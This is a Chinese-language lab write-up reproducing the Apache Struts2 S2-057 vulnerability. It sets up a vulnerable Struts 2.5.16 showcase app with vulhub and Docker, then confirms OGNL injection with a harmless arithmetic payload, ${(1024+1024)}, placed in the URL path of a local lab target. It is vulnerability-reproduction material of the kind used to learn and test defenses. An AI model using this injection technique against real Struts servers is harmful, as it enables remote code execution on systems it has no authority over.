 ﻿# S2-057 漏洞复现


靶机系统：ubuntu 16.04

# 0x01 搭建struts2

利用`vulhub`来搭建，需要在ubuntu在安装好docker

docker安装选择阿里云的源，不然会连接失败，还有需要root权限。详细参考：[Ubuntu 16.04 安装 Docker][1]

安装好后 `docker version` 验证是否成功
![](./1.jpg)

成功后安装`vulhub`

```
git clone https://github.com/vulhub/vulhub
cd vulhub/struts2/s2-048
docker-compose up -d

```



# 0x02 搭建st2-057漏洞环境

`docker ps`查看CONTAINER ID
![](./2.png)

```
docker exec -i -t 上面的CONTAINER_ID /bin/bash
```

因为Struts 2.5.16存在s2-057漏洞，所以去下载这个版本

然后运行
```
apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
unzip struts-2.5.16-all.zip
cp struts-2.5.16/apps/struts2-showcase.war /usr/local/tomcat/webapps/
```

好了后就可以看到有了这个目录

![](./3.jpg)

然后需要修改2个配置文件
`/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml`

修改为：
```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
然后重新启动服务,

```
cd /usr/local/tomcat/bin/
./shutdown.sh 
docker-compose up -d
```

漏洞环境搭建完成
![](./4.jpg)


# 0x04  漏洞验证
靶机地址：`http://192.168.96.130:8080/struts2-showcase/`

命令执行：`http://192.168.96.130:8080/struts2-showcase/${(1024+1024)}/actionChain1.action`

payload：`${(1024+1024)}`

返回了：`http://192.168.96.130:8080/struts2-showcase/2048/register2.action`

执行了命令

![](./5.jpg)

到此漏洞复现成功

# 0x05 参考链接

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://github.com/jas502n/St2-057
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://www.anquanke.com/post/id/157518
https://bbs.ichunqiu.com/thread-44733-1-1.html

```


  [1]: https://www.cnblogs.com/penmily/p/7026964.html